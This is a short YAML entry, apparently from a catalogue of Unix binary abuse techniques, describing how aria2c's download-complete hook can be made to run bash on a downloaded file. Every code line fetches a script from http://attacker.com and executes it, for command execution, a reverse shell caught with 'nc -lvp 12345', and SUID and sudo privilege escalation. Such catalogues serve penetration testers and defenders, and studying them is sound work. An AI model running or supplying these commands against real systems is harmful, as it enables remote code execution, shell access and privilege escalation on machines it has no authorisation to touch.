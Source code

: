 ```yaml
---
functions:
  execute-interactive:
    - description: "By default the ``--on-download-complete`` option execute a given binary with 3 parameters: https://aria2.github.io/manual/en/html/aria2c.html?highlight=download%20complete#event-hook We can control the first one (GID) which leads to a command execution"
    - code: "aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa # aaaaaaaaaaaaaaaa file contains a shell script"
  reverse-shell-interactive:
    - description: Run ``nc -lvp 12345`` on the attacker box to receive the shell.
    - code: "aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa # aaaaaaaaaaaaaaaa file contains the reverse shell payload (in bash)"
  suid-enabled:
    - code: "./aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa"
  sudo-enabled:
    - code: "sudo aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa"
---
```

